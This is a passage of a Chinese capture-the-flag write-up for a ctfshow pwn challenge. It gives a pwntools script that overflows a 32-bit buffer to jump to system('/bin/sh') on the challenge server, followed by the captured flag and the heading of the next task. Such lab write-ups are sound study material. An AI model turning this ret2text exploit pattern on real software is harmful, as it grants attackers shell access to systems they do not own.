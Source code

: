 callsystem：

![image-20241101151429394](../_media/image-20241101151429394.png)



binsh:

![image-20241101151451644](../_media/image-20241101151451644.png)





构筑exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28238

p = remote(ip,port)

payload = b'a'* ( 0x12 + 0x04 ) + p32(0x0804854F) + p32(0x08048750)
p.recvuntil(b'Just easy ret2text&&32bit')

p.sendline(payload)

p.interactive()
```



拿到flag：

```
ctfshow{2943dff7-bf4b-47ad-ae11-0b67ba372335}
```



## ==40. pwn40（查找rdi）==

64位的 system(); "/bin/sh"

